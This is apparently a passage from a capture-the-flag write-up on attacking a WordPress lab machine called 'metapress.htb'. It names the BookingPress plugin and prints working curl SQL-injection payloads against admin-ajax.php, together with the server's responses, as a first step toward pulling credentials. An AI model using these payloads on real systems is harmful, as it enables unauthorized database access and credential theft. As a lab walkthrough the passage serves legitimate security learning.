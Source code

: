 ```shell

 [!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
  ...
 [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure

```

That are the vulnerabilities that I found were the more interesting however we aren't authenticated yet. So as I always say in this situation, **pentest the main functionality!** in this case the events page. If you open burpsuite to intercept the request and pay attention you will find that the page is using a plugin called bookingpress, here is an example

```
GET /wp-content/plugins/bookingpress-appointment-booking/images/data-grid-empty-view-vector.webp HTTP/1.1
```

If you search for exploits for this plugin you will find that it is vulnerable to a SQL injection as seen [here](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357), we also have the *curl* command that we need to execute so let's try it out.

```shell
curl -i -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data "action=bookingpress_front_get_category_services&_wpnonce=64c0de5bf7&category_id=33&total_service=-7502) UNION SELECT 1,1,1,1,1,1,1,1,database() -- -"
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Mon, 05 Dec 2022 16:10:24 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"1","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"1","bookingpress_service_duration_unit":"1","bookingpress_service_description":"1","bookingpress_service_position":"1","bookingpress_servicedate_created":"blog","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]%
```

Ok it works, Next step is to expose some credentials

```shell
curl -i -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data "action=bookingpress_front_get_category_services&_wpnonce=64c0de5bf7&category_id=33&total_service=-7502) UNION SELECT 1,1,1,1,1,1,1,1,database() -- -" | tail -n 1 | tr , '\n'
[{"bookingpress_service_id":"1"
"bookingpress_category_id":"1"
"bookingpress_service_name":"1"
"bookingpress_service_price":"$1.00"
"bookingpress_service_duration_val":"1"
"bookingpress_service_duration_unit":"1"
"bookingpress_service_description":"1"
"bookingpress_service_position":"1"
"bookingpress_servicedate_created":"blog"
```
